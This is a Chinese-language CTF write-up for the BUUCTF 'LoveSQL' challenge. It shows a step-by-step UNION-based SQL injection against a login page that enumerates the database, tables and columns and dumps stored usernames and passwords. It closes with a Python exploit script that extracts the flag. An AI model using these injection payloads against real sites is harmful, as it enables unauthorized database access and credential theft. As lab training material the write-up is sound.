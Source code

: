 # 分析

来自[[极客大挑战 2019]LoveSQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]LoveSQL)，sql注入

查看源码无发现，根据提示使用万能密码，结果

![image-20240912091545932](image/image-20240912091545932.png)

```bash
密码:b0dafbb1333bee53b28325ebe59336c5  #发现md5解密无结果
```

尝试继续判断回显位，4字段显错

```
/check.php?username=admin%27+order+by+3%23&password=1
/check.php?username=admin%27+order+by+4%23&password=1
```

![image-20240912093847468](image/image-20240912093847468.png)

确定回显位置

```
/check.php?username=-1%27+union+select+1%2C2%2C3%23&password=1
```

![image-20240912093824007](image/image-20240912093824007.png)

爆出数据名

```
/check.php?username=-1%27+union+select+1%2Cdatabase%28%29%2Cversion%28%29%23&password=1
```

![image-20240912094005099](image/image-20240912094005099.png)

爆表名

```
/check.php?username=-1'+union+select+1,2,group_concat(table_name)+from+information_schema.tables+where+table_schema%3d'geek'%23&password=root
```

![image-20240912095238232](image/image-20240912095238232.png)

爆列名

```
/check.php?username=-1'+union+select+1,2,group_concat(column_name)+from+information_schema.columns+where+table_name%3d'geekuser'%23&password=123
/check.php?username=-1'+union+select+1,2,group_concat(column_name)+from+information_schema.columns+where+table_name%3d'l0ve1ysq1'%23&password=123
```

![image-20240916172707604](image/image-20240916172707604.png)

爆数据

```
/check.php?username=-1'+union+select+1,2,group_concat(id,username,password)+from+geekuser%23&password=123
/check.php?username=-1'+union+select+1,2,group_concat(id,username,password)+from+l0ve1ysq1%23&password=123
```

![image-20240916180028601](image/image-20240916180028601.png)

# exp

```python
import requests
import re
url = "http://8e47428c-7efa-408f-b847-c6dd0fa77eb2.node5.buuoj.cn:81/check.php"
kw={
    "username":"-1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1#",
    "password":"123"
}
res = requests.get(url, params=kw)
if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag found -->>{flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

